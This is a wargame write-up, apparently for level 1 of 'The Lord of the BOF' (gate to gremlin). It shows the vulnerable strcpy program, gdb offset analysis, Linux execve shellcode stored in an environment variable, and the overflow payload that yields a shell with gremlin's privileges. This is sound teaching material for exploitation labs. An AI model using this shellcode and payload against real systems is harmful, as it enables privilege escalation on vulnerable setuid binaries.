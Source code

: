 # Level1

## This level's goal
- LEVEL1 (gate -> gremlin) : Simple BOF

***

```
[gate@localhost gate]$ bash2

[gate@localhost gate]$ ls -l
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
-rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c

[gate@localhost gate]$ cat gremlin.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - gremlin
        - simple BOF
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}

[gate@localhost gate]$ ./gremlin
argv error

[gate@localhost gate]$ ./gremlin AAAA
AAAA
```

In the code, the gremlin seems that it prints buffer(256bytes) which is your input.

```
(gdb) run
Starting program: /home/gate/gremlin
/bin/bash: /home/gate/gremlin: Operation not permitted
```

You cannot debug germlin cuz of the privilege, so you need to copy that for debug.

```
[gate@localhost gate]$ cp gremlin gremlin2
[gate@localhost gate]$ gdb -q gremlin2
(gdb) set disass intel
(gdb) disass main
0x8048433 <main+3>:     sub    %esp,0x100
0x804846e <main+62>:    lea    %eax,[%ebp-256]
```

The buffer is 256 without dummy, so the memory seems 256bytes + SFP(4byts) + RET(4bytes).

The point is that you need to overflow buf and SFP (260bytes) and then exploit RET with the shell code.

The shell code is   
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80`

I will make the env variable of EGG(shell code) and then made and run getegg.c (to get EGG's address).

```
[gate@localhost gate]$ export EGG=`python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
[gate@localhost gate]$ echo 'int main() { printf("EGG -> 0x%x\n", getenv("EGG")); } ' > getegg.c
[gate@localhost gate]$ gcc getegg.c -o getegg
[gate@localhost gate]$ ./getegg
EGG -> 0xbffffeb1
```

Then the payload will be the dummy strings + the shell code's address.

```
[gate@localhost gate]$ ./gremlin `python -c 'print "A"*260+"\xb1\xfe\xff\xbf"'`
bash$ id
uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)
bash$ my-pass
euid = 501
hello bof world
```




